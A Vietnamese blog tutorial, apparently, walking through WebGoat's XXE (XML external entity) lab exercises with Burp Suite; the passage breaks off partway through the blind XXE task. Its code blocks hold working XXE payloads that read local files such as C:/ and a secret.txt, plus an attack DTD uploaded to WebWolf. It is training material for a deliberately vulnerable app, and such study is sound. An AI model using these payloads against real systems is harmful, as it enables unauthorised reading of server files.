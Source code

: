 ```yaml
---
title: "(A5) Security Misconfiguration - XXE - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A5) Security Misconfiguration - XXE"
date: "26-3-2024"
id: "17"
---
```


- XXE (XML external entity) hay tấn công thực thể bên ngoài XML là lỗ hổng lợi dụng tính năng phân tích cú pháp của XML dùng để phân tích cú pháp đầu vào XML từ người dùng. Từ đó kẻ tấn công có thể truy cập đến các tệp cục bộ, chạy các lệnh, quét các dịch vụ và các cổng nội bộ, truy cập mạng nội bộ, từ đó có thể thực hiện 1 cuộc tấn công DOS đến máy chủ dễ bị khai thác

## 1. Let's try

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H67_awhxrt.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H68_ibvlkr.png)

- Thay đổi XML trong Request theo code bên dưới và nhấn Forward.

```xml
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]><comment>  <text>&xxe;</text></comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H69_ww9c7b.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H70_ifp6sa.png)

## 2. Modern REST framework

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H71_osyu6x.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H72_ctae5o.png)

- Thay đổi `application/json` trở thành `application/xml`, và thêm đoạn code XML bên dưới, sau đó nhấn Forward:

```xml
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]><comment>  <text> &xxe;</text></comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H73_ygsmoa.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H74_q6zyeh.png)

## 3. Blind XXE assignment

- Vào trang: http://127.0.0.1:9090/WebWolf/files

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H75_ck9obo.png)

- Tạo một file tên là ** attack.dtd** (nội dung file là đoạn code bên dưới) và Upload nó lên WebWolf:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY attackxxe SYSTEM 'file:///C:\Users\asus\.webgoat-2023.8\XXE\theviblog\secret.txt'>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H76_fxvszi.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat, trên Brup Suite ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419339/WebGoat/H77_hbu1oo.png)
Còn tiếp...
